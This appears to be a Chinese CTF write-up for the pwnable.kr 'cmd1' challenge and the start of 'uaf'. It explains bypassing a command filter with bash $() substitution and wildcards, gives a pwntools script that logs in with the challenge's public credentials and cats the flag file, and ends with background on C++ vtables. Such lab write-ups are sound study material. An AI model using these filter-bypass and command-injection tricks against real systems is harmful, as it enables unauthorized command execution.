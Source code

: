 但是 bash里可以用 $()取值

比如我们cd 到根目录

$(pwd)就相当于斜杠了

然后就可以绕过了

还有一个坑点是

不能用“”包裹参数了

因为如下

bash里面关于单引号，双引号，反斜杠的处理

字符 | 说明
:-: | :-: 
’(单引号)|又叫硬转义，其内部所有的shell 元字符、通配符都会被关掉。注意，硬转义中不允许出现’(单引号)
“”(双引号)|	又叫软转义，其内部只允许出现特定的shell 元字符：$用于参数代换 `用于命令代替
\\(反斜杠)	|又叫转义，去除其后紧跟的元字符或通配符的特殊意义。

Exp:

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='cmd1',password='guest',port=2222)
#shell.download_file('./cmd1.c')
sh = shell.run('./cmd1 "/bin/cat fl*" ')
sh.interactive()
```

## 0x10 uaf

### 前置知识：类重载·虚函数

```
在cpp中，如果类中有虚函数，那么它就会有一个虚函数表的指针__vfptr，在类对象最开始的内存数据中。之后是类中的成员变量的内存数据。

对于子类，最开始的内存数据记录着父类对象的拷贝（包括父类虚函数表指针和成员变量）。 之后是子类自己的成员变量数据。

如果一个类中有虚函数，那么就会建立一张虚函数表vtable，子类继承父类vtable，若，父类的vtable中私有(private)虚函数,则子类vtable中同样有该私有(private)虚函数的地址。注意这并不是直接继承了私有(private)虚函数

当子类重载父类虚函数时，修改vtable同名函数地址，改为指向子类的函数地址，若子类中有新的虚函数，在vtable尾部添加。

vptr每个对象都会有一个，而vptable是每个类有一个，vptr指向vtable，一个类中就算有多个虚函数，也只有一个vptr；做多重继承的时候，继承了多个父类，就会有多个vptr

作者：看雪学院
链接：https://www.jianshu.com/p/a66adda1d0be
来源：简书
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
```
